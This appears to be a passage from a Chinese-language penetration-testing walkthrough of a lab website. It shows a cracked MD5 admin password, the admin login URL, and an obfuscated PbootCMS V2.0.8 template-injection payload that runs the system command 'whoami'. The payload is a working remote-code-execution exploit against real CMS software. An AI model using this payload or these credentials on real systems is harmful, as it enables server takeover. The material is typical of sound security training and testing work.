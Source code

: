 找到后台账号密码：  `admin:8187bef2c0b83e6b0b747d92b0a65eb1`

md5解密后：    `admin:admin7788`

接下来登录网站后台

```http
http://www.cf1.com/admin.php
```

<img src=".\图片\Snipaste_2023-05-11_12-30-41.png" alt="Snipaste_2023-05-11_12-30-41" style="zoom:80%;" />

## 网站后台拿shell

发现版本为 `PbootCMS V2.0.8-20200426`

全网找 exp 

```http
https://xz.aliyun.com/t/7918
https://www.anquanke.com/post/id/212603
```

### 漏洞复现

```
{pboot:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['s','y','s','t','e','m']),implode('',['w','h','o','a','m','i'])))}{/pboot:if}
```
